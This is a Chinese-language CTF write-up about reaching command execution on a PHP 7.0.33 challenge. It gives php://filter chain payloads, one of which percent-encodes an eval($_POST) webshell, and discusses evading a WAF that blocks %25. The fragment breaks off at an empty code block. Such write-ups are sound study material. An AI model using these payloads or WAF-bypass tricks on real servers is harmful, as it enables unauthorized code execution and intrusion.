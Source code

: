 这次flag不在/flag，所以我们需要命令执行

因为这个php版本是7.0.33所以`string.strip_tags`这个过滤器不能用，不然的话可以利用这样的payload:`php://filter/write=string.strip_tags|dechunk/resource=%3f>%31%0a%3c%0a%32%36%0a%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%31%5d%29%3b%65%78%69%74%3b`

为啥不能用嘞，因为7.0.33版本有个bug，用`string.strip_tags`会出现segment fault

后来我就想到了，利用segment fault，php不会删除临时文件，所以就上传文件，然后爆破文件名，但是后来题目弄了个提醒：`no brute force` 心态裂开

于是我们得找其他的方法，

这下彻底没招了，只能去看源代码了，在分析代码的时候发现：

![image1550](https://raw.githubusercontent.com/Explorersss/photo/master/20200802191228.png)

php会对filter进行urldecode，美滋滋那么payload出来了

payload:

```
php://filter/write=%2563%256f%256e%2576%2565%2572%2574%252e%2562%2561%2573%2565%2536%2534%252d%2565%256e%2563%256f%2564%2565|%2573%2574%2572%2569%256e%2567%252e%2572%256f%2574%2531%2533|%2563%256f%256e%2576%2565%2572%2574%252e%2562%2561%2573%2565%2536%2534%252d%2564%2565%2563%256f%2564%2565/resource=1%09%0Fc%9DCm0%A3.%A0%FBq%2BS%82%1FQ%28d%8D%1C%07b8%9C%A0%FB%0An
```

但是新的问题出现了，这个网站的中间件会ban`%25`，送出题人一句mmp。

跨过千山万水来到这里，结果还有新的拦路虎。

一般遇到服务器中间件拦截%25的时候，我们可以试试php与中间件对数据解析的差异来绕过，或者试试http请求走私，测试后发现两种都不行

服务器过滤了%25，测试下发现这是是针对参数值的，如把%25放到参数名那里就是很ok的，然后我们就知道他是针对参数检测的，如果参数过多它还能检测吗

于是有：

```
```